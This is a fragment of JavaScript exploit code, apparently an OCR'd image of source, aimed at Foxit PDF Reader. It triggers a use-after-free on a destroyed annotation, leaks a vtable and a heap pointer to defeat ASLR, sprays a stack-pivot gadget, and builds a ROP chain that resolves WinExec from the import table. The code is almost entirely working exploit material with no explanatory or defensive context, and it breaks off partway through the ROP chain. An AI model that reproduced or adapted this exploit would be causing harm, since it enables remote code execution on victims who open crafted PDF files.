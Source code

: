 ```
    for (var i = 0; i < 3; i++) {
        var x = new ArrayBuffer(maxMallocBytes);
    }
}

function alloc_at_leak(){
    for (var i = 0; i < 0x64; i++){
        pwn_array[i] = new Int32Array(new ArrayBuffer(0x40));
    }
}

function control_memory(){
    for (var i = 0; i < 0x64; i++){
        for (var j = 0; j < pwn_array[i].length; j++){
            pwn_array[i][j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak_vtable(){
    var a = this.addAnnot({type: "Text"});

    a.destroy();
    gc();

    prepare_heap(0x400);
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    var leaked = stolen[0] & 0xffff0000;
    foxit_base = leaked - 0x01f50000;
}

function leak_heap_chunk(){
    var a = this.addAnnot({type: "Text"});
    a.destroy();
    prepare_heap(0x400);

    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    alloc_at_leak();
    heap_ptr = stolen[1];
}

function reclaim(){
    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);

        rop[0x00] = heap_ptr;                // pointer to our stack pivot from the TypedArray leak
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret
```